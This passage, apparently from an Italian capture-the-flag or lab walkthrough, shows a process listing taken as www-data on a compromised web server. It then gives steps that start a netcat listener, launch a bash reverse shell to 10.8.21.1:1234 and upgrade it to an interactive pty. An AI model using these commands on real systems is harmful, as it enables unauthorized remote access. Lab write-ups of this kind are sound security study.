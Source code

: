 999 1 0 17:22 ? 00:00:00 /usr/lib/policykit-1/polkitd --no-debug root 1004 1 0 17:22 ? 00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal root 1021 1 0 17:22 ttyS0 00:00:01 /sbin/agetty -o -p -- \u --keep-baud 115200,38400,9600 ttyS0 vt220 root 1023 1 0 17:22 tty1 00:00:00 /sbin/agetty -o -p -- \u --noclear tty1 linux root 1035 1 0 17:22 ? 00:00:00 /usr/sbin/sshd -D root 1074 1 0 17:22 ? 00:00:00 /usr/sbin/apache2 -k start www-data 1077 1074 0 17:22 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1078 1074 0 17:22 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1079 1074 0 17:22 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1080 1074 0 17:22 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1081 1074 0 17:22 ? 00:00:01 /usr/sbin/apache2 -k start mysql 1175 1 0 17:22 ? 00:00:02 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid root 1311 1 0 17:22 ? 00:00:00 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock www-data 1654 1074 0 17:22 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1826 1074 0 17:23 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1827 1074 0 17:24 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1828 1074 0 17:24 ? 00:00:01 /usr/sbin/apache2 -k start www-data 1829 1074 0 17:24 ? 00:00:01 /usr/sbin/apache2 -k start root 2173 2 0 18:14 ? 00:00:00 [kworker/u30:1] root 2284 2 0 18:25 ? 00:00:00 [kworker/u30:2] root 2324 2 0 18:35 ? 00:00:00 [kworker/u30:0] www-data 2412 1079 0 18:39 ? 00:00:00 sh -c ps -ef www-data 2413 2412 0 18:39 ? 00:00:00 ps -ef


6) Sfortunatamente molti comandi se li eseguo digitandoli in modo normale non vanno, ma se io li scrivo antecedendo /bin/<comando> dovrerebbero funzionare, proviamo in questo modo a caricare una reverse shell
7) Crea una porta di ascolto: sudo nc  -lvp 1234
8) Digito il codice della reverse shell: 
/bin/bash -c '/bin/bash >& /dev/tcp/10.8.21.1/1234 0>&1'

9) Rendo la shell interattiva: python3 -c 'import pty; pty.spawn("/bin/bash")'